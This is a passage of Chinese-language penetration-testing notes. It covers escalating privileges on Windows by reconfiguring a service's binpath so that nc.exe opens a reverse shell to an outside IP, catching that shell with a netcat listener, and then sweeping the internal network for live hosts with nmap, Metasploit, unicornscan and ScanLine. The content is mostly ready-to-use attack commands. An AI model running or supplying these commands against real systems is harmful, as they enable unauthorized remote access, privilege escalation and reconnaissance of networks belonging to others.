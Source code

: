 #### 	ii.修改服务->提权

##### 		1）修改服务参数binpath的值（使用sc命令）

```
sc config [服务] binpath= "C:\windows\temp\nc.exe -nv xx.xxx.xx.xx [port] -e C:\windows\system32\cmd.exe" 反弹shell
sc qc [服务] 查询是否修改成功
```

##### 	2)重启服务

```
sc config [服务] obj= ".\LocalSystem" password=""
net start [服务]
```

##### 	3)接受反弹shell

```
nc -lvvp [port]
```



## 探测内网存活主机

### 1、基于 UDP

```
1.nmap扫描
root@John:~# nmap -sU -T5 -sV --max-retries 1 192.168.1.100 -p 500
慢的令人发指
2.msf扫描
msf > use auxiliary/scanner/discovery/udp_probe
msf > use auxiliary/scanner/discovery/udp_sweep
3.unicornscan扫描
linux下使用推荐
root@John:~# unicornscan -mU 192.168.1.100
4.ScanLine扫描
项目地址：https://www.mcafee.com/ca/downloads/free-tools/scanline.aspx
网盘地址：http://pan.baidu.com/s/1i4A1wLR 密码：hvyx
McAfee出品，win下使用推荐。管理员执行。
```

### 2、基于 ARP

#### 前提：suid权限

```
1.nmap扫描
root@John:~# nmap -sn -PR 192.168.1.1/24
2.msf扫描
msf > use auxiliary/scanner/discovery/arp_sweep
msf auxiliary(arp_sweep) > show options
Module options (auxiliary/scanner/discovery/arp_sweep):
Name Current Setting Required Description
---- --------------- -------- -----------
INTERFACE no The name of the interface
RHOSTS yes The target address range or CIDR identifier
SHOST no Source IP Address
SMAC no Source MAC Address
THREADS 1 yes The number of concurrent threads
TIMEOUT 5 yes The number of seconds to wait for new data
msf auxiliary(arp_sweep) > set RHOSTS 192.168.1.0/24
RHOSTS => 192.168.1.0/24
msf auxiliary(arp_sweep) > set THREADS 10
```